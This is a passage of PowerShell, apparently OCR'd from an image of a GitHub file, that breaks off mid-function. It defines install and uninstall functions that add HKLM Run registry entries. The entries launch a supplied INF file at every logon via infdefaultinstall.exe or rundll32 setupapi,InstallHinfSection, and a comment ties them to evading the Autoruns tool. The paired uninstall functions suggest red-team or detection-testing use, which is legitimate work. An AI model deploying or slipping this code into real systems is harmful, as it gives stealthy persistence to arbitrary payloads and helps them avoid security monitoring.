 ```
			[Parameter(Mandatory = $True)]
			[string]$Path
		)
	# Example inf here: https://github.com/huntresslabs/evading-autoruns/blob/master/shady.inf
	# TODO: Generate inf file
	# TODO: param for registry key name
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$infpath = $Path
	$infdefaultinstall = "INF Default Install"
	$ComScriptlet = '"C:\Windows\system32\infdefaultinstall.exe ' + $infpath + '"'

	Set-ItemProperty -Path $Autoruns -Name $infdefaultinstall -Value $ComScriptlet -Type ExpandString
}

function UninstallAutoRuns-INFDefaultInstall
{
	param
		(
			[Parameter(Mandatory = $True)]
			[string]$Path
		)

	# TODO: param for registry key name
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$infpath = $Path
	$infdefaultinstall = "INF Default Install"

	Remove-ItemProperty -Path $Autoruns -Name $infdefaultinstall
}

function InstallAutoRuns-SquiblydooINF
{
	param
		(
			[Parameter(Mandatory = $True)]
			[string]$Path
		)
	# Example inf here: https://github.com/huntresslabs/evading-autoruns/blob/master/shady.inf
	# TODO: Generate inf file
	# TODO: param for registry key name
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$infpath = $Path
	$infdefaultinstall = "Squiblydoo"
	$ComScriptlet = '"C:\Windows\system32\rundll32.exe setupapi,InstallHinfSection ModelsSection 128 ' + $infpath + '"'

	Set-ItemProperty -Path $Autoruns -Name $infdefaultinstall -Value $ComScriptlet -Type ExpandString
}

function UninstallAutoRuns-SquiblydooINF
{
	param
		(
			[Parameter(Mandatory = $True)]
			[string]$Path
		)

	# TODO: param for registry key name
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$infpath = $Path
	$infdefaultinstall = "Squiblydoo"
```